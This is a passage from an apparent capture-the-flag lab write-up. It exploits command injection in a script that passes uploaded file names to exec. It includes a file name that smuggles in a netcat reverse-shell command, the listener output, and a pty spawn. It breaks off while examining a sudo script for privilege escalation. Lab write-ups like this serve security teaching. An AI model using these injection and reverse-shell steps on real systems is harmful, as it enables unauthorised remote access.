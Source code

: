 The vulnerability lies in line 29, because the `$value` variable represents the
file name in the uploads directory and it is included in the `exec` function without any checks.
For example, if there was a file called `; ls`, the `exec` function would execute this:
```
nohup /bin/rm -f $path; ls > /dev/null 2>&1 &
```

As user `apache` we can create files in the upload directory, so we can try to
execute a netcat reverse shell.
Let's create a file called `; nc 10.10.14.1 1338 - bash`, but we need to escape
spaces:
```
$ touch \;nc\ 10\.10\.14\.4\ 1338\ -c\ bash
```

Let's setup our listener and in maximum of three minutes, we should get a shell:
```
$ nc -nlvp 1338
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1338
Ncat: Listening on 0.0.0.0:1338
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:58834.
```
And here it is! Let's use python to have a prompt and check the flag:
```
python -c "import pty; pty.spawn('/bin/bash')"
[guly@networked ~]$ wc -c user.txt
33 user.txt
```
I suggest to create a pair of ssh keys and add it to the authorized keys of the
user, to have a stable shell.


# Privilege escalation

Running the usual [LinEnum](https://github.com/rebootuser/LinEnum) we find out
that we can run a command as root without providing the password:
```
[+] We can sudo without supplying a password!
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

Let's check what the `changename.sh` script does:
{{< highlight bash "linenos=table" >}}
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"
